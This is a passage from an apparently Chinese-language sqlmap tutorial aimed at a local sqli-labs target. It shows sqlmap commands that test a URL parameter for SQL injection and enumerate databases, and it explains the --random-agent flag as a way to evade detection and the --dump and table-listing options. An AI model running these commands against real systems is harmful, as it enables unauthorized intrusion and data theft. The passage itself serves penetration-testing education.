 使用`--random-agent`参数，可以随机生成一个User-Agent，避免被网站识别到是sqlmap的特征，使用-v 4，可以看到请求头中随机生成的User-Agent字段

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" -p id -v 4 --flush-session --random-agent --batch
```

![8](/medias/sqlmap/8.png)

### --dbs,--tables,--columns,--dump,-D,-T,-C

这里的参数在上面sqlmap探测出参数存在漏洞时，就可以指定这些参数，拿到数据库数据

<pre>
--dbs  获取数据库列表
--tables  获取指定数据库的表列表
--columns  获取指定数据库指定表的列名
--dump  获取指定数据库指定表的列数据
-D  指定数据库
-T  指定表
-C  指定列
</pre>

爆出所有数据库

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" -p id --dbs --flush-session --batch
```
